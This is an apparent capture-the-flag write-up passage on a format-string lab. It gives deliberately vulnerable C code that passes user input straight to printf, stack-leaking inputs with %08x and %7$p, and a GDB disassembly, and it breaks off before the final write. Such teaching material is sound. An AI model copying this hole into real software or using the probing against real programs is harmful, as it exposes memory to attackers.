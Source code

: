 ```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

// gcc -static -z execstack -z norelro -fno-stack-protector -o format2 format2.c

void vuln()
{
  int target = 0;
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target !\n");
  } 
}

int main(int argc, char **argv)
{
  vuln();
}
```

First, let's find our argument on the stack...

```shell
$ ./format2 
AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
AAAA00000200.080ea400.080489bb.00000000.00000000.00000000.41414141.78383025.3830252e
user@gdb:~/demo$ ./format2 
AAAA%7$p
AAAA0x41414141
```

It seems to be the 7th argument. Now we need to find the address of *target* and write **64** at this address. Let's run **GDB** and place a breakpoint at the *if* condition.

```nasm
$ gdb -q format2 
Reading symbols from format2...(no debugging symbols found)...done.
gdb-peda$ disas vuln
Dump of assembler code for function vuln:
   0x080489ac <+0>:	push   ebp
   0x080489ad <+1>:	mov    ebp,esp
   0x080489af <+3>:	push   ebx
   0x080489b0 <+4>:	sub    esp,0x214
   0x080489b6 <+10>:	call   0x8048890 <__x86.get_pc_thunk.bx>
   0x080489bb <+15>:	add    ebx,0xa16f5
   0x080489c1 <+21>:	mov    DWORD PTR [ebp-0xc],0x0
   0x080489c8 <+28>:	mov    eax,0x80ea55c
   0x080489ce <+34>:	mov    eax,DWORD PTR [eax]
   0x080489d0 <+36>:	sub    esp,0x4
   0x080489d3 <+39>:	push   eax
   0x080489d4 <+40>:	push   0x200
   0x080489d9 <+45>:	lea    eax,[ebp-0x20c]
   0x080489df <+51>:	push   eax
   0x080489e0 <+52>:	call   0x804f5f0 <fgets>
   0x080489e5 <+57>:	add    esp,0x10
   0x080489e8 <+60>:	sub    esp,0xc
   0x080489eb <+63>:	lea    eax,[ebp-0x20c]
   0x080489f1 <+69>:	push   eax
   0x080489f2 <+70>:	call   0x804f1d0 <printf>
```